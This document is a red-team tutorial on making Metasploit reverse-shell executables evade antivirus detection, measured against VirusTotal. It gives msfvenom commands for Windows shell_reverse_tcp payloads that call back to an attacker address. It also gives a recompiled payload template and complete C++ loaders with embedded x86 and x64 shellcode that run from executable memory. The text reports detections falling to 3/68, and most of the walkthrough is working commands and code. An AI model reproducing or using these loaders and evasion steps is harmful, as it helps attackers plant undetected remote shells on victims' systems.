







# AV Bypass with Metasploit Templates and Custom Binaries

This is a quick look at a couple of simple ways that **attempt** to bypass antivirus vendors for your shellcodes.

## 48/68 detections

For a baseline test, let's generate the standard MSF reverse shell payload for a 32 bit Windows system:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f exe > /root/tools/av.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Checking the file in [VirusTotal](https://www.virustotal.com/#/file/ebf62a6140591b6ccf81035a7f06b3a6580144cfa5a9de0ad49dd323c4513ee3/detection) gives the following detection rate:



## 36/68 detections

When generating metasploit payloads, our specified shellcode gets injected into the template binaries. The payload we generated earlier got injected into the template for which the source code is provided below:



Out of curiosity, let's simply recompile the standard template:

```text
root@/usr/share/metasploit-framework/data/templates/src/pe/exe# i686-w64-mingw32-gcc template.c -lws2_32 -o avbypass.exe
```

...and regenerate the payload using the newly compiled template:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/avbypass.exe -f exe > /root/tools/avbypass.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 363382 bytes
```

[VirusTotal](https://www.virustotal.com/#/file/c311065c151bdd98efc3c413016a7817f6089985e799121007dd993230c530bd/detection) detections for the new executable dropped from 48 to 36 and that did not require any code change!



## 32/66 detections

If we make a couple of small changes to the code for memory allocation sizes:



...it seems that we can further reduce [VirusTotal](https://www.virustotal.com/#/file/1b2dc633c5709435cd956e214f5417488c04e39ac58ccf5aa8bba4813dc9c005/detection) detections albeit not by much - this time they drop from 36 to 32:



## 8/68 detections - custom x86 binary

Let's do something a bit more custom - build a binary from the previous lab [CreateRemoteThread Shellcode Injection](../code-injection-process-injection/process-injection.md) that is based on the payload:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```


```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\xbd\x85\x3b\x76\xa3\xda\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
		"\x52\x31\x6b\x12\x83\xeb\xfc\x03\xee\x35\x94\x56\x0c\xa1\xda"
		"\x99\xec\x32\xbb\x10\x09\x03\xfb\x47\x5a\x34\xcb\x0c\x0e\xb9"
		"\xa0\x41\xba\x4a\xc4\x4d\xcd\xfb\x63\xa8\xe0\xfc\xd8\x88\x63"
		"\x7f\x23\xdd\x43\xbe\xec\x10\x82\x87\x11\xd8\xd6\x50\x5d\x4f"
		"\xc6\xd5\x2b\x4c\x6d\xa5\xba\xd4\x92\x7e\xbc\xf5\x05\xf4\xe7"
		"\xd5\xa4\xd9\x93\x5f\xbe\x3e\x99\x16\x35\xf4\x55\xa9\x9f\xc4"
		"\x96\x06\xde\xe8\x64\x56\x27\xce\x96\x2d\x51\x2c\x2a\x36\xa6"
		"\x4e\xf0\xb3\x3c\xe8\x73\x63\x98\x08\x57\xf2\x6b\x06\x1c\x70"
		"\x33\x0b\xa3\x55\x48\x37\x28\x58\x9e\xb1\x6a\x7f\x3a\x99\x29"
		"\x1e\x1b\x47\x9f\x1f\x7b\x28\x40\xba\xf0\xc5\x95\xb7\x5b\x82"
		"\x5a\xfa\x63\x52\xf5\x8d\x10\x60\x5a\x26\xbe\xc8\x13\xe0\x39"
		"\x2e\x0e\x54\xd5\xd1\xb1\xa5\xfc\x15\xe5\xf5\x96\xbc\x86\x9d"
		"\x66\x40\x53\x31\x36\xee\x0c\xf2\xe6\x4e\xfd\x9a\xec\x40\x22"
		"\xba\x0f\x8b\x4b\x51\xea\x5c\x7e\xa6\xf4\x99\x16\xa4\xf4\xa0"
		"\x5d\x21\x12\xc8\xb1\x64\x8d\x65\x2b\x2d\x45\x17\xb4\xfb\x20"
		"\x17\x3e\x08\xd5\xd6\xb7\x65\xc5\x8f\x37\x30\xb7\x06\x47\xee"
		"\xdf\xc5\xda\x75\x1f\x83\xc6\x21\x48\xc4\x39\x38\x1c\xf8\x60"
		"\x92\x02\x01\xf4\xdd\x86\xde\xc5\xe0\x07\x92\x72\xc7\x17\x6a"
		"\x7a\x43\x43\x22\x2d\x1d\x3d\x84\x87\xef\x97\x5e\x7b\xa6\x7f"
		"\x26\xb7\x79\xf9\x27\x92\x0f\xe5\x96\x4b\x56\x1a\x16\x1c\x5e"
		"\x63\x4a\xbc\xa1\xbe\xce\xcc\xeb\xe2\x67\x45\xb2\x77\x3a\x08"
		"\x45\xa2\x79\x35\xc6\x46\x02\xc2\xd6\x23\x07\x8e\x50\xd8\x75"
		"\x9f\x34\xde\x2a\xa0\x1c";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```


This time [VirusTotal](https://www.virustotal.com/#/file/f4dfceb473a878a3751513bacb4d44ee460391ce1a668edb5337d4859e767335/detection) detections dropped dramatically to 8/68:



## 3/68 detections - custom x64 binary

The above binaries were all for a x86 architecture. Let's try generating the shellcode for a x64 system and use the same custom binary:

```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```


```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```


[VirusTotal](https://www.virustotal.com/#/file/d1431f479724822d6ccf8684a99598d966a9b5a964e7bd3886308a0217dea712/detection) now only shows **3/68** detections, which is a great improvement that enables us bypassing most of the popular antivirus vendors:



## References



